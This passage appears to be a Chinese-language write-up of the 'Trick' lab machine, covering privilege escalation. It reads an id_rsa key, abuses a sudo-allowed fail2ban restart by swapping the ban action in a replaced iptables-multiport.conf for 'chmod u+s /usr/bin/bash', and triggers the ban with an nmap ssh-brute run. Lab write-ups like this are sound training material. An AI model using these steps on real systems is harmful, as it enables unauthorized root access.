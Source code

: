 可以读取`id_rsa`

![](https://img.mi3aka.eu.org/2022/08/7f20bd88bd2189464a34b22f59e32adc.png)

![](https://img.mi3aka.eu.org/2022/08/fca040c1d31762114a3e4b59afa3e938.png)

---

![](https://img.mi3aka.eu.org/2022/09/dc310b097605cdf1f624becc30441e91.png)

`sudo -l`显示可以用`root`身份执行`/etc/init.d/fail2ban restart`

参考文章

[Privilege Escalation with fail2ban nopasswd](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)

[Privilege Escalation via fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)

`find /etc/ -writable -ls`

![](https://img.mi3aka.eu.org/2022/09/e8dcec8ff94035945a1f06d7b2e462a6.png)

尝试直接修改`iptables-multiport.conf`,发现权限不足

![](https://img.mi3aka.eu.org/2022/09/bdcd47df32e1836eb151e46daaf3662e.png)

```
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf iptables-multiport.conf.bak
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf.bak iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ ls -alh iptables-multiport.conf
-rw-r--r-- 1 michael michael 1.4K Sep  1 05:11 iptables-multiport.conf
```

![](https://img.mi3aka.eu.org/2022/09/c602d6f5b09301aff020de47d5e0c82a.png)

将封禁的action替换`chmod u+s /usr/bin/bash`

![](https://img.mi3aka.eu.org/2022/09/f5c0e9c52ed053635f46173a3e35dbfc.png)

后台使用`nmap -p 22 --script=ssh-brute --script-args userdb=2.txt,passdb=1.txt 10.10.11.166`对ssh进行爆破

![](https://img.mi3aka.eu.org/2022/09/7efca9c356aecab4af3a484aa15e648f.png)

![](https://img.mi3aka.eu.org/2022/09/3d80564cb6a1d7f51891fdae867f6c50.png)

对于`-p`参数的解释

![](https://img.mi3aka.eu.org/2022/09/6ed1f3fa5172d45c5b2305d6ab9234b6.png)

```
      -p  Turned on whenever the real and effective user ids do not match.
          Disables processing of the $ENV file and importing of shell
          functions.  Turning this option off causes the effective uid and
          gid to be set to the real uid and gid.


当真实有效的用户 id 不匹配时打开。禁用 $ENV 文件的处理和 shell 函数的导入。 关闭此选项会使有效的 uid 和 gid 设置为真实的 uid 和 gid。
```
